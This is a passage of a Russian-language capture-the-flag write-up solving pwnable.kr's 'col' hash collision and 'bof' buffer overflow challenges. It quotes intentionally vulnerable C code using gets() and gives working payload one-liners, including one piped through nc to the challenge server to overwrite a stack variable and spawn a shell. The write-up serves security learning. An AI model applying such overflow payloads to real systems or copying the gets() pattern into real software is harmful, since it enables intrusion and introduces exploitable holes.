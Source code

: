 Суммируем, равенство должно выполняться:

`0x41414141 + 0x41414141 + 0x41414141 + 0x41414141 + 0x41414141 = 0x21DD09EC`

Подгоняем числа, выходит:

`0x6c5cec8 + 0x6c5cec8 + 0x6c5cec8 + 0x6c5cec8 + 0x6c5cecc`

```bash
./col $(python -c "print('\xc8\xce\xc5\x06' * 4 + '\xcc\xce\xc5\x06')")
```
`daddy! I just managed to create a hash collision :)`

## [](#header-2)bof

> Nana told me that buffer overflow is one of the most common software vulnerability.
> Is that true? Download: http://pwnable.kr/bin/bof
> 
> Download: http://pwnable.kr/bin/bof.c
> 
> Running at : nc pwnable.kr 9000

**bof.c**

```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>

void func(int key){
  char overflowme[32];
  printf("overflow me : ");
  gets(overflowme); // smash me!
  if(key == 0xcafebabe){
    system("/bin/sh");
  }
  else{
    printf("Nah..\n");
  }
}
int main(int argc, char* argv[]){
  func(0xdeadbeef);
  return 0;
}
```

Нужно перезаписать переменную на 0xcafebabe, находим в дебаггере правильный офсет, засылаем байты, cat'ом не даём stdout закрыться

```bash
(python -c “print('A'*52 + '\xbe\xba\xfe\xca')"; cat) | nc pwnable.kr 9000
```

`daddy, I just pwned a buFFer :)`

## [](#header-2)flag
